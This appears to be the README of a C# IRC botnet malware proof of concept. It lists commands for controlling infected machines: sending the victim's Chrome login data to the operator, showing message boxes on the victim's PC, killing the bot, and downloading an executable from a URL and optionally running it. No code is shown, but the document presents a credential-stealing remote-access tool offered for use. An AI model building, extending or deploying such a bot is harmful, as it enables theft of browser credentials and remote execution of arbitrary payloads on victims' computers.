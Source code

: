 d3pl0y-IRC-BotNet
=================

A C# irc bot malware POC.

Connects to an IRC server and receives commands.

!version - Bot version

!schrome - Begins a file transfer of a users chrome login data
!die - kills the bot
!mbox!The message - Shows a message box on the victim pc.
!download!http://linktofile/leethax.exe!C:\path\to\save\on\disk.exe!1 or 0 1 = run after download
